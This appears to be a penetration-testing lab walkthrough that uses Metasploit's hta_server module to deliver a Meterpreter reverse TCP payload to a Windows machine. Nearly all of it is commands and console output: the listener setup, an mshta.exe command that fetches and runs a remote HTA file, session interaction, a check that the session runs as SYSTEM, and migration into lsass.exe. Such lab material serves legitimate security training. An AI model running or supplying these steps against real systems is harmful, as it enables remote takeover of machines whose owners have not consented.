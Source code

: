 _Use Metasploit to set up a listener and deliver a Meterpreter payload to the target machine. Begin by launching the Metasploit console and configuring the payload and listener settings._

`msfconsole -q`

`search hta_server`, `use exploit/windows/misc/hta_server`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.50.5`, `set LPORT 4444`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.50.5:4444 ← 
[*] Using URL: http://0.0.0.0:8080/erkRK2mE.hta
[*] Local IP: http://10.10.50.5:8080/erkRK2mE.hta ←
[*] Server started.
```

**Explanation**: The Metasploit `hta_server` module generates a malicious HTA (HTML Application) file that, when executed on the target, delivers a payload to open a Meterpreter session.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_On the target machine, execute the malicious HTA file hosted by the Metasploit listener to establish a Meterpreter session back to the attacker's machine._

`mshta.exe http://10.10.50.5:8080/erkRK2mE.hta`

<span style="color: #e57373;">**Attacker machine**</span>.

_Verify that the Meterpreter session has been successfully established, confirming control over the target machine._

```
[*] 10.4.28.143      hta_server - Delivering Payload
[*] Sending stage (176195 bytes) to 10.4.28.143
[*] Meterpreter session 1 opened (10.10.50.5:4444 -> 10.4.28.143:49783) at 2024-08-20 18:40:12 +0530 ←
```

_List all active sessions in Metasploit and interact with the new Meterpreter session._

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Check the user context of the Meterpreter session to confirm that it is running with `NT AUTHORITY\SYSTEM` privileges._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Migrate the Meterpreter process to `lsass.exe` to ensure persistence and stability of the session by attaching to a critical system process._

`migrate -N lsass.exe`:
```
[*] Migrating from 2824 to 552...
[*] Migration completed successfully. ←
```

